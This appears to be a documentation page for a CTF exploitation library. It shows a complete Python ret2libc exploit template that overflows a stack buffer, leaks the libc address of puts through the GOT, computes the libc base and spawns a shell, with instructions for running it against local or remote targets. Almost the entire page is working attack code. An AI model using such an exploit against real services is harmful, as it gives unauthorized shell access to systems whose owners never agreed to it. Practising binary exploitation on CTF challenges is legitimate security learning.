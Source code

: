 ### 栈溢出利用

ret2libc

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

'''
GitHub:
    https://github.com/c0mentropy/ckyan.pwnScript
Help: 
    python3 exp.py --help
    python3 exp.py debug --help
    python3 exp.py remote --help
Local:
    python3 exp.py debug --file ./pwn
Remote:
    python3 exp.py remote --ip 127.0.0.1 --port 9999 [--file ./pwn] [--libc ./libc.so.6]
    python3 exp.py remote --url 127.0.0.1:9999 [--file ./pwn] [--libc ./libc.so.6]
'''

from ckyan.pwnScript import *

def exp():
    pandora_box.init_script()

    elf = pandora_box.elf
    libc = pandora_box.libc
    p = pandora_box.conn
    rop_attack = pandora_box.ropper_attack

    padding = 0x10 + 8
    main_addr = 0x40123D
    
    rop_attack.set_padding(padding=padding)
    
    ru(b'Input: ')
    rop_attack.puts(target_addr=elf.got['puts'], 
                    return_func_addr=main_addr,
                    is_send=True)

    put_addr = r7f()
    libc_base = put_addr - libc.sym['puts']
    set_libc_base_and_log(libc_base)

    ru(b'Input: ')
    rop_attack.get_shell()


if __name__ == '__main__':
    exp()

```

